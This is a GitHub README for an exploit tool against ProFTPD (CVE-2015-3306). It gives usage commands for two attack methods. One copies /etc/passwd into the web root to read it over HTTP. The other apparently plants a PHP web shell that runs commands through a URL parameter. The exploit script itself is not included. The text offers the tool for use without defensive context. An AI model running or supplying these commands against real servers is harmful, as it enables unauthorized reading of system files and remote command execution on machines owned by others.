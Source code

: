 # cpx_proftpd

Tool coded by Daniel Aldana for [CVE-2015-3306](http://bugs.proftpd.org/show_bug.cgi?id=4169) exploitation. Bug reported by Vadim Melihow

1.- METHOD 1:

usage: 

```
python cpx_proftp.py 1 <IP> <REMOTE_FULLPATH_SRC_FILE> <REMOTE_FULLPATH_DST_FILE>
```

ex:

```
python cpx_proftp.py 1 127.0.0.1 /etc/passwd /var/www/pass.txt
```

then try:

```
http://127.0.0.1/pass.txt
```

2.- METHOD 2:


usage: 

```
python cpx_proftp.py 2 <IP> <REMOTE_FULLPATH_APACHE2>
```

ex:

```
python cpx_proftp.py 2 127.0.0.1 /var/www/html
```

then try:

```
http://127.0.0.1/xxx.php?img=ls
```
